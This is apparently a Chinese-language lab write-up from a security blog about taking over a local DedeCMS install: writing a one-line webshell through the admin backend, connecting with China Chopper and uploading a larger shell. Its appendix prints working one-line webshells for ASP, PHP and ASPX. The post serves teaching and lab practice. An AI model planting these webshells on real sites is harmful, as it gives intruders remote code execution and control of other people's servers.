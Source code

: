 ```yaml
---
layout: post

title: "渗透实验之二：利用shell拿站提权思路"

categories: WebSecurity

tags: Webshell

---
```

###摘要
---
* 实验环境：Win7 64位、XP SP3虚拟机、DedeCMS-V5.7-GBK-SP1、WAMP集成环境
* 实验目的：掌握“一句话木马”的用法，了解常见web程序写文件漏洞，理解渗透测试的常规思路以及webshell的使用方法，掌握中国菜刀的常规使用方式。
* 实验思路：本地搭建dedecms运行环境进行演示
* 声明：请在本地进行试验，请勿用于非法用途，请君自重。Have Fun！

###实验步骤
----
* **Step1.** 搭建dedecms本地运行环境（基于win7 x64 + wamp）

* **Step2.** 在虚拟机中打开浏览器访问dedecms，登陆后台，输入php一句话内容：

![](http://bravelee.u.qiniudn.com/Exercises2-About-webshell-Image0.png)

![](http://bravelee.u.qiniudn.com/Exercises2-About-webshell-Image1.png)

![](http://bravelee.u.qiniudn.com/Exercises2-About-webshell-Image2.png)

记住test.php存放的目录为：`http://192.168.1.101/DedeCMS-V5.7-GBK-SP1/uploads/`

* **Step3.** 一句话木马保存成功之后，利用菜刀连接一句话：

![](http://bravelee.u.qiniudn.com/Exercises2-About-webshell-Image3.png)

![](http://bravelee.u.qiniudn.com/Exercises2-About-webshell-Image4.png)

![](http://bravelee.u.qiniudn.com/Exercises2-About-webshell-Image5.png)

* **Step4.** 上传大马，拿shell：

![](http://bravelee.u.qiniudn.com/Exercises2-About-webshell-Image6.png)

连接shell：`http://192.168.1.101/DedeCMS-V5.7-GBK-SP1/uploads/getshell.php`

![](http://bravelee.u.qiniudn.com/Exercises2-About-webshell-Image7.png)


----
附录
----
* 一句话：

asp一句话：`<%execute(request("brave"))%>`

php一句话：`<?php eval($_POST[brave]);?>`

aspx一句话：`<% @Page Language="Jscript"%><%eval(Request.Item["brave"],"unsafe");%>`

* 安装完织梦dedecms V5.7之后，访问出现如下问题：
(PHP 5.3 and above) Please set 'request_order' ini value to include C,G and P (recommended: 'CGP') in php.ini

解决办法：
php5.3以上版本request_order 的默认值 是 “GP”，根据错误提示编辑php.ini配置文件：
将 request_order = "GP" 改为：request_order = "CGP" 即可

* wamp环境设置本机Ip地址访问，apache默认安装是不允许外网访问的，需要授权设置。所以解决方法如下：打开httpd.conf文件

>  onlineoffline tag - don't remove

>   Order Deny,Allow

>   Deny from all

>   Allow from 127.0.0.1

将其中的Deny from all 修改为  Allow from all 即可输入IP地址访问web程序

* 浏览shell页面出现错误提示：
将 php.ini文件 allow_call_time_pass_reference = Off 修改为 allow_call_time_pass_reference = On
